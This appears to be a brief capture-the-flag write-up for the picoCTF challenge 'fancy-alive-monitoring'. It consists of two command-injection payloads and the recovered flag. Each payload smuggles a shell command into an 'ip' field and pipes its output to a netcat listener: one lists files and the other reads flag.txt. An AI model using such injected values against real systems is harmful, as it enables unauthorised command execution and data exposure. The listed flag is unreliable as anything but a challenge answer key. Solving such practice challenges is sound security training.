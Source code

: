 # fancy-alive-monitoring

List files: `ip=0.0.0.0;ls -la | nc -l -p 12345`

Read flag: `ip=0.0.0.0;cat flag.txt | nc -l -p 12345`

Flag: `picoCTF{n3v3r_trust_a_b0x_36d4a875}`

